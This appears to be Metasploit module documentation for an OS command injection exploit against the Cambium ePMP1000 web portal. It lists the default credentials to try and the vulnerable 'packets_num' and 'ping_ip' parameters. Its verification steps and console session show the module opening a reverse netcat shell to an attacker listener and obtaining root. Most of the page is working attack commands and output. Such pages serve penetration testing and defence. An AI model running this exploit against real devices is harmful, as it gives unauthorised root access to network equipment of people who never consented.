 This module exploits an OS Command Injection vulnerability in Cambium ePMP1000 device management portal. It requires any one of the following login credentials - admin/admin, installer/installer, home/home - to set up a reverse netcat shell.

This module injects the payload in 'packets_num' parameter. Alternatively, a second, vulnerable parameter 'ping_ip' can also be used.

Note: `cmd/unix/reverse_netcat` is the only payload that seems to work and is stable. After the session is opened, there may be a slight delay in response after first command is issued. There are no delays in receiving responses to subsequent command(s). It is recommended to use 'exploit -j'.

## Verification Steps

1. Do: ```use exploit/unix/http/epmp1000_ping_cmd_shell```
2. Do: ```set RHOST [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set LHOST [IP]```
5. Do: ```exploit -j```

## Scenarios

  ```
msf > use use exploit/unix/http/epmp1000_ping_cmd_shell
msf exploit(epmp1000_ping_cmd_shell) > set RHOST 192.168.0.2
msf exploit(epmp1000_ping_cmd_shell) > set RPORT 80
msf exploit(epmp1000_ping_cmd_shell) > set LHOST 192.168.0.104
msf exploit(epmp1000_ping_cmd_shell) > exploit -j

[*] Started reverse TCP handler on 192.168.0.104:4444
[+] SUCCESSFUL LOGIN - 192.168.0.2:80 - "installer":"installer"
[*] Sending payload...
[*] Command shell session 10 opened (192.168.0.104:4444 -> 192.168.0.2:43594) at 2017-12-02 06:08:00 +0700

msf exploit(epmp1000_ping_cmd_shell) > sessions -l

Active sessions
===============

  Id  Type            Information  Connection
  --  ----            -----------  ----------
  10   shell cmd/unix               192.168.0.104:4444 -> 192.168.0.2:43594 (192.168.0.2)

msf exploit(epmp1000_ping_cmd_shell) > sessions -i 10
[*] Starting interaction with 10...

id
uid=0(root) gid=0(root)

  ```
